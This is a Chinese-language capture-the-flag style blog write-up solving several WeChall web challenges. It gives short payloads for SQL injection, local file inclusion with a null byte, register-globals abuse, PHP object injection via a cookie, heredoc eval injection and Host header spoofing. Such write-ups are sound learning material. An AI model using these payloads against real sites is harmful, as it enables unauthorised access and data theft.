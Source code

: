 title: WeChall Writeup
date: 2015-08-07 17:01:53
tags: Wechall
categories: H-blog
---
![Wechall](/img/wechall.gif)
<!--more-->

年轻人, 要多撸题, 少打炮..

## 0x00 No Escape

看源码, 是sql注入.
payload: `index.php?vote_for=bill`=111%23`

## 0x01 Training: PHP LFI

看源码, 文件包含漏洞.
payload: `index.php?file=../../solution.php%00`

## 0x02 PHP 0817

这个比较傻..不多说.
payload: `index.php?which=solution`

##0x03 Training: Register Globals

全局变量的问题,,上次看到过,,不过现在的php已经没这漏洞了...(PHP还是那么老版本的活该..)
payload: `globals.php?login[]=admin`

## 0x04 Are you serial

这个有点屌...放代码吧..
```php
<?php
function my_autoloader($classname)
{
        require_once './'.str_replace('.', '', $classname).'.php';
}
function cece($name){
	echo $name;
}
spl_autoload_register('cece');
 #spl_autoload_register('my_autoloader');
$user = unserialize('O:7:"phpinfo":0:{}');
```
这题的重点就在于 `spl_autoload_register` 这个函数. 
解序列化后的如果有类, 而且当前程序中未定义该类, 则会自动把该类的名称传值到 (`sql_autoload_register(xxx)`) xxx函数中.
这题只要能运行 `SERIAL_Solution.php` 这个文件就算成功

所以最后的payload是改cookie, 
`serial_user` 的值为 `O:15:"SERIAL_Solution":0:{}`

## 0x05 PHP 0819

第一次知道php还有这鬼东西....heredoc

```php
echo <<<suibian
正文
正文
suibian;
// 格式应该是 <<<+任意字符x+换行+字符串+换行+任意字符x+;
```

这题的目的 `eval("\$spaceone='1337';");`
但是引号都被过滤了...所以就可以用上面的那个代替引号...这里由于`eval`的原因, 结尾还要再来一个换行
payload: `index.php?eval=<<<r%0a1337%0ar;%0a`

## 0x06 HOST me 

这题一看就知道是去改host, 不过比较坑....改成 `host:localhost` 后会报错...纠结了好久..
网上查了以下才知道...需要....
payload:
```
 //只把要修改的行列出来
 GET http://www.wechall.net/challenge/space/host_me/index.php HTTP/1.1
 Host: localhost
```

## 0x07 PHP 0815

这题有点屌...这题的大概意思是它给你的代码存在sqli, 然后让你给出修补的方案, 要给出最短, 还不会影响原程序的方案...
表示并不会, 只看出了应该是修改 `in_array` 这里..
到网上搜索后才知道, 需要把 `$show` 转换为int 型, 有 `int()` 和 `intval()` 然而答案要最短, 
最短的黑魔法.... --> `$show - 0`
提交 `in_array($show-0, $whitelist)` 竟然不对...坑爹的...最后提交 `-0` 过了..

最后, 我在想,, 这脚本有sqli? 怎么日? ....然后试了一下...果然有...
```php
 #code.php?show=1%20union%20select%201%23
 Query: SELECT 1 FROM `table` WHERE `id`=1 union select 1#
 SHOWING NUMBER 1 union select 1#
```

<!--## 0x08 Stop us-->

